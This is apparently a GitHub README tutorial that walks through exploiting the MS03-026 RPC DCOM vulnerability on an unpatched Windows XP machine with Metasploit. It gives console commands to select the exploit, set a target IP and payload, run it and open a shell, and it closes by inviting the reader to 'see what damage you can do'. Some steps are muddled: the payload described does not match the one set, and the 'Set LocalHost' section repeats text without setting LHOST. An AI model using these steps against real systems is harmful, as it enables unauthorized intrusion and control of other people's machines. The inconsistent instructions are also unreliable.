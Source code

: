 # Example Exploit 
There are multiple exploits for an un-patched windows xp box. Here is a guide on how to do one of them:

## Step 1 - Metasploit
Ok, we're going to be using metasploit for this attack. To get started run the following in a terminal:

`sudo -E service postgresql start && sudo -E msfdb init && sudo -E msfconsole;`

Be patient, it takes awhile for Metasploit to load all of its modules. The current version of Metasploit has 823 exploits and 250 payloads.

## Step 2 - Find the exploit 

One of the most reliable hacks is on the ubiquitous Windows XP system with the RPC DCOM. It's a buffer overflow attack that enables the attacker to execute any code of their choice on the owned box (note Microsoft's comment under impact of vulnerability). Microsoft identifies it as MS03-026 in their database of vulnerabilities. In our case, we will use it to open a reverse shell on our target system.

Now run `msf > search dcom` 
This will find the exploit

![Image of the mfs terminal](images/634704378236167812.jpg)

## Set the exploit 
Now let's tell Metasploit what exploit we want to use.
Type use and the name of our exploit, exploit/windows/dcerpc/ms03_026_dcom.

`msf > use exploit/windows/dcerpc/ms03_026_dcom`

## Set the options
Now that we've chosen our exploit, we can ask Metasploit what our options are. By typing show options, Metasploit will list our options in executing this exploit.

`msf > show options`

## Set Remote host
Metasploit will now ask us for the RHOST. This will be the IP address of the remote host or the machine we're attacking. In our case, it's `10.0.0.125`. Use the actual IP address of the machine you are attacking. Tools such as nmap can help in identifying the IP address of the machine you are attacking. Notice in the picture above that Metasploit tells us that we will be using (binding) port 135.

`msf > set RHOST 10.0.0.125`

## Show Payloads
Next, we check to see what payloads are available for this exploit. Type show payloads at the Metasploit prompt:

`msf > show payloads`

## Set Payload
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD windows/meterpreter/bind_tcp`

## Set LocalHost
Now that we can see what payloads are available, we can select the generic/shell_reverse_tcp by using the Metasploit console set command. If successful, this will establish a remote shell on the target system that we can command.

`msf > set PAYLOAD generic/shell_reverse_tcp`

## Exploit 
Now we command Metasploit to exploit the system:

`msf > exploit`

## Open a shell! 
Type the command sessions –i 1 to open a command shell on the XP system that will appear on your Metasploit console.

`sessions –i 1`

To confirm that the command shell is on the Windows XP system, type dir to get a directory listing on the Windows XP system that you now own!

`C: >dir`

Congrats! Now see what damage you can do! 
